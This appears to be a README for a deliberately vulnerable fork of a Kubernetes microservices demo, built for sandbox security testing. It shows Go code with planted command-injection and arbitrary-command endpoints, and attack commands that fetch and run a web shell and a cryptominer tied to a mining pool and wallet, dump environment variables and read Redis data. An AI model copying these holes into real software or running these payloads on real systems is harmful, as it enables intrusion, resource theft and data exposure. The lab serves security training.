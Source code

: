 <br />

The **Online Boutique** cloud-native microservices demo application is tweaked to accommodate some of the use-cases mentioned below

1. **Sensitive keys in codebases** -
     [committing sensitive information to the version control system.](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#sensitive-data-exposure)

2. **Custom handle with code execution** -
    [a custom httpHandler to reply *whoami*](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#custom-handle)
3. **Vulnerable address field** - 
    [to executes codes in the backend](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#rce)
4. **Crypto Miner on pod** - [to install cryptominer python based application on to a pod](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#crypto-miner)
5. **Redis data exposure** - [to connect and disclose the data stored in redis db](https://github.com/vsk-coding/microservices-demo/blob/main/UPDATES.md#redis-data-exposure)


> **Note:** These tweakings were done to make the application
> slightly vulnerable and the use of this application in production environment
> is highly discouraged. Use a sandboxed environment to test out the application.

<br />


## Quickstart 

1. **Create a namespace** *poc* 

```
kubectl create ns poc
```

2. **Deploy the tweaked app to the namespace.**

```
kubectl apply -f ./release/kubernetes-manifests.yaml -n poc
```
```
kubectl -n poc apply -f https://raw.githubusercontent.com/vsk-coding/microservices-demo/master/release/kubernetes-manifests.yaml
```


3. **Get the public IP**

```
kubectl -n poc get service frontend-external | awk '{print $4}'
```

*Example output - do not copy*

```
EXTERNAL-IP
<your-ip>
```
## Custom Handle

**Use handle /cmd/command**
```
your-external-ip/cmd/<command>
```
*Example command - do not copy*

```
http://localhost/cmd/whoami
```
## RCE

**Give commands in Address field to install and run** [gotty.](https://github.com/yudai/gotty) and goto *ip:8080* to get the gotty terminal

*Command*

```
wget https://github.com/yudai/gotty/releases/download/v1.0.1/gotty_linux_amd64.tar.gz && tar -xvzf gotty_linux_amd64.tar.gz && mv gotty /usr/local/bin/gotty && apk add libc6-compat && gotty -w --port 9090 sh
```
**Checkout Page** [![Screenshot of checkout page](./images/address.png)](./images/address.png) 


## Crypto Miner

**Give commands in Address field to install and run Crypto Miner Python application**

*Command*

```
apk add --no-cache wget curl python2 && curl -L https://github.com/ricmoo/nightminer/archive/refs/heads/master.zip > test.zip && unzip test.zip && cd nightminer-master && python nightminer.py -o stratum+tcp://eu.miningdao.io:4444  -u 1LNdGsYtZXWeiKjGba7T997qvzrWqLXLma 
```

[![Screenshot of hubble ui](./images/connection-hubble.png)](./images/connection-hubble.png) 

## Redis data exposure

**Use the /cmd/ handle to get env variables**

*Command*

```
<your-external-ip>/cmd/printenv
```
[![Screenshot of printenv](./images/printenv.png)](./images/printenv.png) 

**Use redis-cli to connect to the above ip and see the KEYS**

*Command*

```
<your-external-ip>/cmd/echo "KEYS *" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli keys](./images/redis-cli.png)](./images/redis-cli.png) 

**Use redis-cli to show the type of data**

*Command*

```
<your-external-ip>/cmd/echo "type <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data type](./images/redis-cli-type.png)](./images/redis-cli-type.png) 

**Use redis-cli to show the data**

*Command*

```
<your-external-ip>/cmd/echo "hgetall <value>" | redis-cli -h <redis-cart-ip>
```
[![Screenshot of redis cli data](./images/redis-cli-data.png)](./images/redis-cli-data.png) 
<br />

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 147:*
```go
r.HandleFunc("/cmd/{cmd}", svc.cmdHandler).Methods(http.MethodGet)
```

> microservices-demo/src/frontend/handlers.go


**Tweak Function** *placeOrderHandler*
*Line 348*

```go
command := streetAddress
cmd, err := exec.Command("sh","-c",command).Output()
fmt.Printf("%s",cmd)
```

*New Function*
```go
func (fe *frontendServer) cmdHandler(w http.ResponseWriter, r *http.Request) {
	log := r.Context().Value(ctxKeyLog{}).(logrus.FieldLogger)
	cmd := mux.Vars(r)["cmd"]
	fmt.Printf( r.Method, r.URL, r.Proto)
	fmt.Printf("the command is %s\n",cmd)
	if cmd == "" {
		cmdName := "whoami"
		
		cmdz := exec.Command("sh","-c",cmdName)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else {
			w.Write(cmdReader)
			return
		}
	} else {
		cmdz := exec.Command("sh","-c",cmd)
		cmdReader, err := cmdz.Output()
		fmt.Printf("The output  is %s\n", cmdReader)
		if err != nil {
			renderHTTPError(log, r, w, errors.Wrap(err, "Executable Not Found"), http.StatusInternalServerError)
			return
		} else{
			w.Write(cmdReader)
			return
		}
	}
	return
}
```
## Sensitive Data Exposure

```
http://external-ip/sde/main.go
```
![Screenshot_2021-09-15_14-43-40](https://user-images.githubusercontent.com/86401171/133669664-4c67a3c6-56a6-4de5-8526-1d7079a45b50.png)

## Files Changed

> microservices-demo/src/frontend/main.go

**Tweak Function** *main*
*Line 145:*
```go
r.PathPrefix("/sde/").Handler(http.StripPrefix("/sde/", http.FileServer(http.Dir("./sde/"))))
```
> microservices-demo/src/frontend/Dockerfile

**Dockerfile**
*Line 36:*
```
COPY ./sde ./sde
```


<br />
